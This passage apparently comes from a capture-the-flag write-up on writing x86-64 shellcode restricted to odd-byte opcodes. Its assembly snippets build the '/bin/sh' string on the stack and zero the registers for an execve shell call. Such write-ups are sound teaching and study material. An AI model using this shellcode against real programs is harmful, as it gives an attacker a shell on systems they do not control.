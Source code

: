 ```assembly
shl    r9,0xf
shl    r9,1

mov    r11d,0xfffffff1
sub    r11d,0xffff9187
dec    r11d
or     r9,r11          ; 0x6e 0x69
shl    r9,0xf
shl    r9,1

mov    r11d,0xfffffff1
sub    r11d,0xffff9dc1
dec    r11d
or     r9,r11          ; 0x62 0x2f

push   r9              ; put 0x0068732f6e69622f or "/bin/sh" on stack
```
One thing to notice here is that we've used `dec` after each `sub` instruction. The reason behind this is the values that we want like `0x732f` or `0x6e69` are odd numbers themselves. And we can only get odd numbers if we subtract an even number from an odd number or vice-versa. That'd mean one of our operands (either in `mov` or `sub`) would be an even number which we can't have. To make our way around this, we subtract two odd numbers so that we get our `desired value + 1` and then we decrement that value to get to our desired value. Neat, right? :)

So, we've tackled a very difficult part. Rest is easy. Now, we've the string `"/bin/sh"` in the stack. Next we need to get the address of the top of the stack and put it in `rdi`. We can't directly do `mov rdi, rsp` or `push rsp; pop rdi` bcz these result in odd byte opcodes (😤). Instead we zero out `r9`, or `r9` with `rsp` to get whatever is there in `rsp` to `r9` (like we did before) and then we push `r9` on the stack. Now on top of the stack we have the memory address pointing to `"/bin/sh"` and if we now do `pop rdi`, `rdi` will have that address too. Fortunately for us, `pop rdi` emits only odd byte opcodes. Great! The following sequence of instructions does this:
```assembly
xor    r9,r9
or     r9,rsp
push   r9
pop    rdi
```
So we fixed `rdi` 🙌

#### Fix rsi, rdx, rax
We cant directly set `rsi`, `rdx` to 0 by doing something like `mov rsi, 0` or `xor rsi, rsi`, the reason being even byte opcodes. I had to try out a plethora of ways to figure out how to make them zero. Then I found that I can do `xor ecx, ecx` and then do `movzx esi, cx` and `movzx edx, cx`. The later two instructions zero-extends cx to esi. You might be wondering I've only made `esi` to 0 but what about the higher 32 bits that form the whole `rsi` because we've to make `rsi` to 0 not just `esi`. Here comes one subtle thing about x86-64 assembly to our rescue. In it, any 32-bit data move to a register also zeroes out the most significant 32-bit of that register. So `movzx esi, cx` will also result in `rsi` to be zero. Similar for `rdx`.  Following is the sequence of instructions to zero out `rdx` and `rsi`:
```assembly
xor    ecx,ecx
movzx  edx,cx
movzx  esi,cx
```
One thing to point out here, before executing our input, the program moves 0 to `eax`, effectively setting `rax` to 0. It can be seen in the following image:
